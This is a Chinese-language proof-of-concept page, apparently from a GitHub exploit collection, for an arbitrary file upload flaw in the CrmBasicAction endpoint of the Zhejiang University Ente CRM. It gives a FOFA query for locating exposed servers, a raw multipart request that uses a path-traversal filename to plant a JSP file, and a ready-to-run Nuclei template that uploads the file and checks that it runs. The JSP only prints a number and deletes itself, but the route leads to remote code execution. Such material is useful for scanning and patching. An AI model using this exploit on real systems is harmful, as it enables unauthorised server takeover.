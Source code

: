 ## 浙大恩特客户资源管理系统crmbasicaction任意文件上传

浙大恩特客户资源管理系统中的crmbasicaction接口存在安全漏洞，允许攻击者向系统上传任意恶意JSP文件，从而可能导致潜在的远程执行代码攻击。该漏洞可能会对系统的完整性和安全性产生严重影响。

## fofa
```
app="浙大恩特客户资源管理系统"
```

## poc
```
POST /entsoft/CrmBasicAction.entcrm?method=zipFileUpload&c_transModel=old HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2657.7 Safari/537.36
Content-Length: 267
Accept-Encoding: gzip
Connection: close
Content-Type: multipart/form-data; boundary=0rwysvgvy7rxv790mpju

--0rwysvgvy7rxv790mpju
Content-Disposition: form-data; name="file"; filename="../../mqh8qxe3cy.jsp"
Content-Type: application/zip

<% out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
--0rwysvgvy7rxv790mpju--
```

![3a3a1bb6be6134a688029b7e4d757cd4](https://github.com/wy876/POC/assets/139549762/75ccec48-a0ad-4ca6-abd7-fdd2635ba5ef)

![9f14d667e2ff13898bf0e9f6e33fe1d5](https://github.com/wy876/POC/assets/139549762/b4355528-ae24-4dfa-962b-eaa779bc6ba7)

访问上传的文件
/enterdoc/dao{{filepath}}{{filename}}.jsp


## nuclei 
```

id: zhedaente-entsoft-CrmBasicAction-upload

info:
  name: 浙大恩特客户资源管理系统-crmbasicaction-任意文件上传
  author: rain
  severity: critical
  metadata:
    fofa-query: title="欢迎使用浙大恩特客户资源管理系统" || body="script/Ent.base.js" || app="浙大恩特客户资源管理系统"
variables:
  filename: "{{to_lower(rand_base(10))}}"
  boundary: "{{to_lower(rand_base(20))}}"

http:
  - raw:
      - |
        POST /entsoft/CrmBasicAction.entcrm?method=zipFileUpload&c_transModel=old HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2657.7 Safari/537.36
        Connection: close
        Content-Type: multipart/form-data; boundary={{boundary}}
        Accept-Encoding: gzip
        
        --{{boundary}}
        Content-Disposition: form-data; name="file"; filename="../../{{filename}}.jsp"
        Content-Type: application/zip
        
        <% out.println(111*111);new java.io.File(application.getRealPath(request.getServletPath())).delete(); %>
        --{{boundary}}--

      - |+
        GET /enterdoc/dao{{filepath}}{{filename}}.jsp HTTP/1.1
        Host: {{Hostname}}
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.2657.7 Safari/537.36
        Content-Length: 0
        Accept-Encoding: gzip, deflate
        Connection: close

    extractors:
      - type: regex
        name: filepath
        part: body
        internal: true
        group: 1
        regex:
          - '(/\d+/)'

        
    matchers:
      - type: dsl
        dsl:
          - "status_code_2 == 200 && contains(body_2,'12321')"
```
